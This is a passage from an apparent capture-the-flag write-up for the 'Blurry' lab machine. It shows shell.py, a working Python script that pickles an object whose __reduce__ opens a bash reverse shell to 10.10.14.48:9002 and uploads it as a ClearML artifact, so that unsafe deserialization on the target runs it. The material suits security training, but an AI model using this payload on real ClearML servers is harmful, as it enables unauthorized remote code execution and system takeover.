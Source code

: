 ![](images/2024-06-08_15-46_project_review.png)

To gain `foothold` we used the `Proof of Concept (PoC)` from the article mentioned earlier and replaced the `artifact` within `artifact_object` with `command` to execute the `serialized code` in the `RunCommand class`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Blurry/files/project]
└─$ cat shell.py 
#!/usr/bin/python3

import pickle
import os

class RunCommand:
    def __reduce__(self):
        return ( os.system, ("bash -c 'exec bash -i >& /dev/tcp/10.10.14.48/9002 0>&1'",) )

command = RunCommand()

with open('netcat.pkl', 'wb') as f:
    pickle.dump(command, f)

from clearml import Task
task = Task.init(project_name='Black Swan', task_name='foobar')
task.add_tags("review")

task.upload_artifact(name='artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl", )

```
